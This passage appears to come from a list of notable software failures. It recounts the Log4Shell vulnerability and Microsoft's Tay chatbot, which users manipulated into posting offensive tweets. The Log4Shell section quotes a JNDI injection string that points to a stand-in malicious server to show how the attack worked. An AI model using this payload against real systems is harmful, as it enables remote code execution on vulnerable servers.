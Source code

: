 Further readings;

- [https://bugs.php.net/bug.php?id=81744](https://bugs.php.net/bug.php?id=81744)
- [https://github.com/php/php-src/security/advisories/GHSA-7fj2-8×79-rjf4](https://github.com/php/php-src/security/advisories/GHSA-7fj2-8×79-rjf4)

### Log4Shell - The Vulnerability That Broke the Internet

> Literally all Java applications in the world could be affected. Even 10% would be a major problem. This would be catastrophic.
>
> [Christian Grobmeier, Log4j maintainer](https://github.blog/open-source/inside-the-breach-that-broke-the-internet-the-untold-story-of-log4shell/)

In December 2021, a security researcher discovered a critical vulnerability in Log4j. The vulnerability, dubbed Log4Shell (CVE-2021-44228), received a perfect 10 CVSS score - the highest possible rating. The exploit was frighteningly simple: attackers could execute remote code by injecting a malicious JNDI string into any logged input field, such as usernames, search boxes, or even Minecraft chat messages.

The vulnerability exploited Log4j's feature that allowed loading software components from remote servers through Java's Naming and Directory Interface (JNDI), but the library didn't validate whether these lookup strings came from trusted sources. A simple string like `${jndi:ldap://malicious-server.com/exploit}` could compromise entire systems.

Log4Shell affected billions of devices across Fortune 500 companies, government systems, and popular applications like Minecraft. The incident exposed the hidden human cost of maintaining critical open source infrastructure, as volunteer maintainers found themselves responsible for patching a vulnerability affecting half the internet. The crisis led to initiatives like the GitHub Secure Open Source Fund to better support and secure critical open source projects.

Further readings:

- [Inside the breach that broke the internet: The untold story of Log4Shell](https://github.blog/open-source/inside-the-breach-that-broke-the-internet-the-untold-story-of-log4shell/)
- [Log4Shell vulnerability](https://en.wikipedia.org/wiki/Log4Shell)

## AI

### Microsoft's Tay Chatbot (2016)

> Tay: Microsoft issues apology over racist chatbot fiasco
>
> [BBC](https://www.bbc.com/news/technology-35902104)

Microsoft released a chatbot called Tay on Twitter, designed to learn from interactions with users. However, within hours, Tay began posting inflammatory and offensive tweets influenced by interactions with malicious users. The incident highlighted challenges in designing AI systems that can handle online interactions responsibly.

## Translations

This is available in a number of languages.
